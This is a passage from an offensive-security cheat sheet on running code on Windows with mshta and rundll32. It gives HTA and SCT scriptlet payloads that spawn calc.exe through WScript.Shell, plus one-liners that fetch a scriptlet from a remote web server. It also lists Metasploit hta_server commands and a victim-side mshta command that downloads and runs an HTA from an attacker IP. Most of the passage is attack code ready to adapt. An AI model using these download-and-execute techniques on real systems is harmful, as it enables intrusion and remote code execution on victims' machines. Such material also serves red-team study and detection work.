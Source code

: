 ```

#### hta example

[[https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f|**From here**]]

```xml
<html>
<head>
<HTA:APPLICATION ID="HelloExample">
<script language="jscript">
        var c = "cmd.exe /c calc.exe";
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>

</body>
</html>
```
```
#### **mshta - sct**

[[https://gist.github.com/Arno0x/e472f58f3f9c8c0c941c83c58f254e17|**From here**]]

```xml
<?XML version="1.0"?>
<!-- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://webserver/scriplet.sct");window.close();  -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:C:\local\path\scriptlet.sct"")")) -->
<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```
```
#### **Mshta - Metasploit**

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```
```
```bash
Victim> mshta.exe //192.168.1.109:8080/5EEiDSd70ET0k.hta #The file name is given in the output of metasploit
```
```
**Detected by defender**

## **Rundll32**

[[https://github.com/carterjones/hello-world-dll|**Dll hello world example**]]

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

```bash
```